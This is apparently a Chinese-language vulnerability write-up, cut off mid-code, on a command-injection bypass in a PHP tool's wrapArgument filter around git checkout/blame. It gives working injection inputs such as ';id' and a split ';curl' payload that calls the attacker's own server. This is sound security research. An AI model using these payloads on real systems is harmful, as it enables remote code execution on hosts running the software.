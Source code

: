 可以看到一开始我们进入到这里

```java
$revision = Command::wrapArgument($revision);
    $filepath = Command::wrapArgument($filepath);
```



![image-20230205182351760](https://raw.githubusercontent.com/hmt38/abcd/main/image-20230205182351760.png)



这是一个过滤，可以看到原来注释的代码，原意应该是做一个转义，但是后面这样改安全多了



![image-20230205183430596](https://raw.githubusercontent.com/hmt38/abcd/main/image-20230205183430596.png)



特殊字符会被过滤（这里过滤了空格，引号，$符号，竖线）



![image-20230205183505421](https://raw.githubusercontent.com/hmt38/abcd/main/image-20230205183505421.png)



结果run又使用空格连接array参数



![image-20230205183641982](https://raw.githubusercontent.com/hmt38/abcd/main/image-20230205183641982.png)



这里大概是可以rce的，只要想到命令注入的一些绕过（这里只过滤了空格，引号，$符号，竖线）就可以，

比如说

```
;id
```

最后run参数是这样操作的

```java
$status = Command::run([
            'cd', $workspace, '&&',
            YAML_CLI_GIT, 'checkout', $revision, '&&',
            YAML_CLI_GIT, 'blame', '-p', $revision, $filepath
        ], $output);
```

每个元素直接都会加上空格，不难想到可以

```java
$revision=;curl
$filepath=vps
```

可以写个demo测一测，调一调，快乐十分

```php
<?php
 
function wrapArgument(string $argument)
{
//         $argument = str_replace('\\', '\\\\',$argument);
//         $argument = str_replace('"', '\"',$argument);
//         return '"' . $argument . '"';
 
    $pattern = [
        '/(^|[^\\\\])((\\\\\\\\)*[\s\'\"\$\|])/',
        '/(^|[^\\\\])((\\\\\\\\)*\\\\([^\s\'\"\|\$\\\\]|$))/'
    ];
    $replacement = [
```